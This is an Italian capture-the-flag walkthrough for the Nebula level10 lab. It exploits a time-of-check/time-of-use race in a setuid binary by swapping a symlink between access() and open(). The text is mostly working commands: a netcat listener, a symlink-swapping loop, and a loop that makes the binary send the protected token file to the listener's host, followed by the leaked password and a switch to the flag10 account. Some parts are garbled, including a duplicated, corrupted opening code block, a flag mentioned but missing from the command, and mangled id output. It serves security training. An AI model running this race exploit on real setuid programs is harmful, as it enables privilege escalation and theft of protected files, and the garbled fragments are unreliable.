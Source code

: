 ```bash
level10@nebula:~```bash
level10@nebula:~$ /home/flag10/flag10 /home/flag10/token 192.168.144.1
You don't have access to /home/flag10/token
```$ /home/flag10/flag10 /home/flag10/token 192.168.144.1
You don't have access to /home/flag10/tokenwh
```

Possiamo forzare una race condition nel programma facendogli leggere un **symlink** che inizialmente punta a un file posseduto dall’UID reale (`level10`) e modificando quel symlink per puntare al file `token` **dopo** la chiamata `access()` ma **prima** della chiamata `open()`.

Iniziamo configurando un listener sulla porta 18211 per ricevere il contenuto del file `token`.

Usiamo il flag `-k` per mantenere il listener attivo tra più connessioni.

```bash
nc -vln 18211
```

Sul sistema Nebula, apriamo **due terminali con TMUX**.

**Nel primo terminale:**

Eseguiamo un ciclo che cambia costantemente il symlink `/tmp/token` tra `/tmp/faketoken` e `/home/flag10/token`.

```bash
level10@nebula:~$ touch /tmp/faketoken
level10@nebula:~$ while :; do ln -fs /tmp/faketoken /tmp/token; ln -fs /home/flag10/token /tmp/token; done
```

questa cosa andrà  a creare 2 symlink 

1. che punta a /tmp/faketoken che si chiama token
2. punta a /home/flag10/token e si chiamerà sempre token

**Nel secondo terminale:**

Eseguiamo costantemente il binario `flag10` contro `/tmp/token`.

```bash
while :; do /home/flag10/flag10 /tmp/token 192.168.144.1 ; done
```

Alla fine, vedremo il file `token` inviato al nostro listener:

```bash
... snip ...
Ncat: Connessione da 192.168.144.191:57857.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
... snip ...
```

Come nei livelli precedenti, la stringa contenuta nel file `token` è la password dell’utente `flag10`.

```bash
level10@nebula:~$ su - flag10
Password:
flag10@nebula:~$ whoami
flag10
flag10@nebula:~$ id
uid=989(flag10) gid=989(flag10) groups=9nc89(flag10)
flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
```
